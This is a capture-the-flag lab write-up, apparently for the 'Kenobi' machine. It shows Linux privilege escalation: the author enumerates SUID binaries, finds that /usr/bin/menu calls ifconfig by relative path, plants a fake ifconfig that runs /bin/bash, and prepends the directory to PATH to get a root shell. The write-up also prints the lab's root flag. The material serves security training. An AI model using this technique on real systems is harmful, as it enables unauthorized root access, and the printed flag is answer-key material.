

# Task 4: Privilege Escalation with Path Variable Manipulation

## Practical

Finding SUID
```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu # uncommon
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```


`/usr/bin/menu` vulnerable to path hijacking
```
kenobi@kenobi:~$ strings /usr/bin/menu
 ... <snip> ...
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
... <snip> ...
```

Privilege escalation 
```
kenobi@kenobi:~$ echo /bin/bash > ifconfig
kenobi@kenobi:~$ chmod 777 ifconfig
kenobi@kenobi:~$ export PATH=$(pwd):$PATH
kenobi@kenobi:~$ which ifconfig
/home/kenobi/ifconfig
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```


## Questions


